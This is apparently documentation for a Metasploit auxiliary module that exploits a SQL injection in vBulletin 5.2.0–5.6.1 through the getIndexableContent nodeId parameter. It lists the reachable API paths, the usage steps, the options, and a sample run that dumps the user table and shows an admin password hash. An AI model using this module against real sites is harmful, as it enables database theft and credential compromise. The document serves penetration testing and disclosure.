 ## Vulnerable Application

  [vBulletin](https://www.vbulletin.com) A popular PHP bulletin board and blog web application.
  This module has been tested successfully against vBulletin 5.6.1 running on Ubuntu Linux 19.04

### Description

This module exploits a SQL injection vulnerability present in vBulletin 5.2.0 through 5.6.1 in the
`getIndexableContent` function. This vulnerability is triggered through the `nodeId` variable and
can be reached through multiple paths (listed below) but is exploited in this module utilizing the
`/ajax/api/content_infraction/getIndexableContent` path.

- /ajax/api/content_video/getIndexableContent
- /ajax/api/content_text/getIndexableContent
- /ajax/api/content_report/getIndexableContent
- /ajax/api/content_redirect/getIndexableContent
- /ajax/api/content_privatemessage/getIndexableContent
- /ajax/api/content_poll/getIndexableContent
- /ajax/api/content_photo/getIndexableContent
- /ajax/api/content_link/getIndexableContent
- /ajax/api/content_infraction/getIndexableContent
- /ajax/api/content_gallery/getIndexableContent
- /ajax/api/content_event/getIndexableContent
- /ajax/api/content_channel/getIndexableContent
- /ajax/api/content_attach/getIndexableContent

Each path listed above reaches the `getIndexableContent` function within the `/core/vb/library/content.php`
file. The SQL injection attack used utilizes a UNION query in order to leak data back in the response
`rawtext` field. The data stored on the file system contains the entire `user` table or a dump of all the
vBulletin tables in json format.

## Verification Steps

1. Do: ```use auxiliary/gather/vbulletin_getindexablecontent_sqli```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set VHOST [HOSTNAME]```
4. Do: ```set TARGETURI [PATH]```
5. Do: ```run```

## Options

### NODE

A valid node id value for the vBulletin install. When provided, this value is used instead of that acquired
by brute-forcing

### MINNODE

A minimum nodeid value to begin with when brute-forcing for a valid node id. **Default: 1**

### MAXNODE

A maximum nodeid value to end with when brute-forcing for a valid node id. **Default: 200**

### TARGETURI

The base URI path of vBulletin. **Default: /**

## Scenarios

```
msf5 auxiliary(gather/vbulletin_getindexablecontent_sqli) > set RHOSTS 192.168.1.100
RHOSTS => 192.168.1.100
msf5 auxiliary(gather/vbulletin_getindexablecontent_sqli) > set VHOST vb.local
VHOST => vb.local
msf5 auxiliary(gather/vbulletin_getindexablecontent_sqli) > set TARGETURI /
TARGETURI => /vb5
msf5 auxiliary(gather/vbulletin_getindexablecontent_sqli) > show actions 

Auxiliary actions:

   Name      Description
   ----      -----------
   DumpAll   Dump all tables used by vbulletin.
   DumpUser  Dump only user table used by vbulletin.

msf5 auxiliary(gather/vbulletin_getindexablecontent_sqli) > run

[*] Running module against 192.168.1.100
[*] Brute forcing to find a valid node id.
[+] Sucessfully found node at id 1
[*] Attempting to determine the vBulletin table prefix.
[+] Sucessfully retrieved table to get prefix from vb5_language.
[*] Getting table columns for vb5_user
[+] Retrieved 78 columns for vb5_user
[*] Dumping table vb5_user
[*] Table contains 1 rows, dumping (this may take a while).
[+] Found credential: administrator:$2y$15$I5t0BGBeYaYGbaRhhBr8g.EBax846Jx3B6ady..nwuPxOWAYicYvi (Email: zenofex@exploitee.rs)
[+] Retrieved 1 rows for vb5_user
[+] Saved file to: /home/zenofex/.msf4/loot/20200522180431_default_192.168.1.100_vb5_user_305077.txt
[*] Auxiliary module execution completed

```
